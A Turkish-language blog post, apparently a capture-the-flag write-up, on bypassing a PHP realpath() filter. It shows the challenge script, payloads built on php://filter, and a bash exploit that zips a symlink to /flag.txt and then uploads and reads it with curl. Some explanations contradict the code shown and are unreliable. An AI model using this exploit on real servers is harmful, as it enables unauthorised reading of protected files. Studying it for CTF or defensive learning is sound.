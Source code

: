 ```yaml
---
title: "PHP RealPath Zafiyeti ve SymLink Çözümü"
layout: post
---
```



PHP RealPath() Zafiyeti ve SymLink Çözümü



## PHP Vuln Script

```php

<?php
session_start() or die('session_start');

$_SESSION['sandbox'] ??= bin2hex(random_bytes(16));
$sandbox = 'data/' . $_SESSION['sandbox'];
$lock = fopen($sandbox . '.lock', 'w') or die('fopen');
flock($lock, LOCK_EX | LOCK_NB) or die('flock');

@mkdir($sandbox, 0700);
chdir($sandbox) or die('chdir');

if (isset($_FILES['file']))
    system('ulimit -v 8192 && /usr/bin/timeout -s KILL 2 /usr/bin/unzip -nqqd . ' . escapeshellarg($_FILES['file']['tmp_name']));
else if (isset($_GET['file']))
    if (0 === preg_match('/(^$|flag)/i', realpath($_GET['file']) ?: ''))
        readfile($_GET['file']);

fclose($lock);
?>

```

## Açıklama

İlk olarak, `session_start()` işlevi çağrılıyor. Bu, sunucu üzerinde bir oturum oluşturmayı sağlar. Eğer oturum zaten başlatılmışsa veya başlatılamıyorsa `(or die('session_start'))`, betik çalışmayı durdurur.
Ardından, `$_SESSION` süper global değişkeninde `sandbox` adında bir anahtar kontrol ediliyor. Eğer 'sandbox' anahtarı tanımlı değilse, `random_bytes(16)` işleviyle rastgele bir 16 baytlık dizi oluşturulup `bin2hex` işleviyle hexadecimal bir dizeye dönüştürülerek `$_SESSION['sandbox']` değişkenine atanır.
`sandbox` dizini, `data/` önekiyle birleştirilerek `$sandbox` değişkenine atanır.
Bir kilitleme dosyası `($sandbox . '.lock')` oluşturulup açılır `(fopen)`. 
Eğer dosya açılamazsa `(or die('fopen'))`, betik çalışmayı durdurur.
flock işlevi, kilitleme dosyasını kilitlemeyi dener. Eğer başka bir işlem tarafından dosya zaten kilitlenmişse veya kilitleme işlemi başarısız olursa `(or die('flock'))`, betik çalışmayı durdurur.
`mkdir` işleviyle `$sandbox` dizini oluşturulur ve izinleri `0700` olarak ayarlanır. Eğer dizin oluşturulamazsa, betik çalışmayı durdurur.
`chdir` işleviyle çalışma dizini `$sandbox` dizini olarak değiştirilir. Eğer dizini değiştiremezse, betik çalışmayı durdurur.
Eğer `$_FILES` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın yüklendiği kontrol edilir.
system işlevi kullanılarak bir komut yolu belirtilir `(/usr/bin/unzip)` ve yüklenen dosyanın geçici konumunu temsil eden `$_FILES['file']['tmp_name']` değeri işleme dahil edilir.
Bu komut, belirtilen dosyayı çıkarır `(unzip)` ve `$sandbox` dizinine yerleştirir. 
`ulimit -v 8192` komutu, işlemin sanal bellek sınırlamasını `8192` kilobayt olarak ayarlar. 
`/usr/bin/timeout -s KILL 2` komutu, unzip işleminin 2 saniye içinde tamamlanmaması durumunda işlemi sonlandırır.

`escapeshellarg($_FILES['file']['tmp_name']))` --> `escapeshellarg` işlevi, bir dizeyi güvenli bir şekilde kabuk argümanı olarak kullanılabilir hale getirmek için kullanılan bir işlevdir.

Eğer `$_GET` süper global değişkeninde 'file' adında bir anahtar varsa, bir dosyanın okunduğu kontrol edilir.

`$_GET['file']` değeri işlenir ve realpath işlevi kullanılarak dosyanın gerçek yolunu elde eder. Ardından `preg_match` işlevi kullanılarak gerçek dosya yolunun boş veya `flag` kelimesini içerip içermediği kontrol edilir.

`realpath($_GET['file'])` işlemi, belirtilen dosyanın gerçek yolunu döndürür. Eğer dosya yoksa veya gerçek yolu bulunamazsa `false` değeri döner.
`preg_match('/(^$|flag)/i', realpath($_GET['file'])`, gerçek dosya yolunu verilen düzenli ifadeye göre kontrol eder. İfade, dosya yolunun boş olup olmadığını veya `flag` kelimesini içerip içermediğini kontrol eder. `i` bayrağı büyük/küçük harf duyarlılığını kapatır.
Eğer gerçek dosya yolü belirlenen kriterleri sağlıyorsa, `readfile` işlevi kullanılarak dosyanın içeriği tarayıcıya gönderilir. Bu, dosyanın içeriğinin tarayıcıda görüntülenmesini sağlar.

Son olarak, `fclose` işlevi kullanılarak kilitleme dosyası kapatılır.

>File Path Check: `$_GET['file']` değeri doğrudan gerçek dosya yolu olarak kullanılıyor. Ancak, realpath işlevi bile olsa bu kullanım güvenli değildir. Kötü niyetli kullanıcılar, dosya yolu manipülasyonu yaparak izin verilmeyen dosyaları okuyabilir veya sistem dosyalarına erişebilir. Güvenli bir dosya yolu kontrolü yapılmalı ve yalnızca belirli bir klasördeki dosyalara erişime izin verilmelidir.

>Command Injection: Dosya yükleme işlemi sırasında `system` işlevi kullanılırken, yüklenen dosyanın güvenli bir şekilde işlenmediği görülüyor. Kötü niyetli kullanıcılar, `$_FILES['file']['tmp_name']` değeri üzerinden komut enjeksiyon saldırıları gerçekleştirebilir ve istenmeyen komutları sunucuda çalıştırabilir. Dosya yükleme işlemi güvenli bir şekilde yapılmalı ve yüklenen dosyaların içeriği doğrulanmalıdır.

>Information Disclosure: Bu istek, readfile işlevini kullanarak bir dosyanın base64 kodlanmış içeriğini tarayıcıya göndermek yerine, "php://filter/convert.base64-encode/resource=exploit" olarak adlandırılan özel bir dosyanın içeriğini kodlayabilir. Eğer bu dosya bir PHP betiği veya hassas bilgiler içeren bir dosya ise, bu sayede saldırgan, hedef sistemin kodunu sızdırabilir veya hassas verilere erişebilir.

>Local File Inclusion: `php://filter/convert.base64-encode/resource=exploit` ifadesi, dosya yolu keşfine yol açabilir. Saldırgan, "exploit" yerine diğer dosya veya dizin isimlerini deneyerek sistemdeki dosyaların listesini elde etmeye çalışabilir. Bu şekilde, saldırgan sistemin dosya yapısını inceleyebilir ve hassas verilerin yerini tespit edebilir.

## Payload

```php
php://filter/convert.base64-encode/resource=flag.txt
php://filter/convert.base64-encode/resource=./flag.txt
```
Komutları ise bize flag değerini döndürecektir.Fakat önce yukarıda yapıldığı gibi dosya yükleme işlemi yapmak gerekir.

### Bash Script 

```bash

#!/bin/bash

TARGET='http://example.com'
PAYLOAD='php://filter/convert.base64-encode/resource=exploit'

mkdir -p ExpDir
pushd ExpDir

mkdir -p "$PAYLOAD"
ln -s /flag.txt exploit
zip -y -r exploit.zip *

curl -H 'Cookie: PHPSESSID=OturumBilgisi' "$TARGET" -F "file=@exploit.zip"
curl -s -H 'Cookie: PHPSESSID=OturumBilgisi' "${TARGET}/?file=${PAYLOAD}" | base64 -d

echo
popd

```
### Command

```py
mkdir file:
cd file:
touch flagx.txt
ln -s flagx.txt flag.txt
cd ..
zip -ry flag.zip file
```

mkdir file: "file" adında bir dizin oluşturur.
cd file: Oluşturulan "file" dizinine geçiş yapar.
touch flagx.txt: "flagx.txt" adında boş bir dosya oluşturur.
ln -s flagx.txt flag.txt: "flag.txt" adında sembolik bir bağlantı oluşturur ve bu bağlantıyı "flagx.txt" dosyasına yönlendirir.
cd ..: Önceki dizine geri döner.
zip -ry flag.zip file: "file" dizinini ve içeriğini "recursive" olarak sıkıştırır ve "file_flag.zip" adlı bir zip arşivi oluşturur.
Bu işlemler sonucunda, "file" dizini içinde "meow.txt" adlı bir dosya ve bu dosyaya bağlantı olarak "flag.txt" adlı sembolik bir bağlantı oluşturulur. Ardından, "file" dizini ve içeriği "file_flag.zip" adlı bir zip arşivine sıkıştırılır.


"recursive" terimi, bir işlemi veya işlemi bir dizin ve içeriğindeki tüm alt dizinler üzerinde tekrarlayarak gerçekleştirmeyi ifade eder.

`zip -r` veya `zip -ry` komutları, zip arşivini oluştururken rekürsif olarak çalışır. Bu, belirtilen dizin ve alt dizinlerindeki tüm dosyaları ve alt dizinleri de dahil ederek bir arşiv oluşturur. Dosyaların ve alt dizinlerin içeriği, arşivin içinde hiyerarşik bir yapıda saklanır.

`zip -r` komutu, dizin ve dosyaları sıkıştırmak için kullanılırken, `zip -ry` komutu, sıkıştırma işlemi sırasında sembolik bağlantıları da korur. Bu, sembolik bağlantılara sahip dosyaların da arşivin içine dahil edileceği anlamına gelir.

Örneğin, zip -ry flag.zip file komutunu kullanarak "file" dizinini rekürsif olarak sıkıştırdığınızda, "file" dizini, içindeki dosyalar ve alt dizinler ile birlikte "flag.zip" adlı bir arşive dahil edilir. Bu şekilde, tüm dizin hiyerarşisi ve içerik korunarak sıkıştırma işlemi gerçekleştirilir.
`file:///flag.txt` komutu ilede çözüm sağlanır.

### Symbolic Link (Sembolik Bağlantı)

Bir dosyanın veya dizinin başka bir dosyayı veya dizini işaret etmesini sağlayan bir dosya türüdür. 
Bir sembolik bağlantı, dosya sistemi üzerinde bir yol bağlantısı oluşturur ve bu sayede bir dosyanın birden fazla konumda bulunmasını sağlar.


## Makale

Daha detaylı olarak belirttiğim makaleme ise burada ulaşabilirsiniz [PHP LFI-RFI-RCE](https://cagrieser.com/articles/PHP-LFI-RFI-RCE.pdf)

Aşağıda ki Python Scripti ile gerekli payloadları ayarlarıp dönen yanıtları dışarı aktarıp bakabilirsiniz.
[https://github.com/cagrieser/ReqWeb](https://github.com/cagrieser/ReqWeb)

Bunun dışında Burp Suite ilede Intruder yapabilirsiniz.

![Web](/img/qwb.gif)

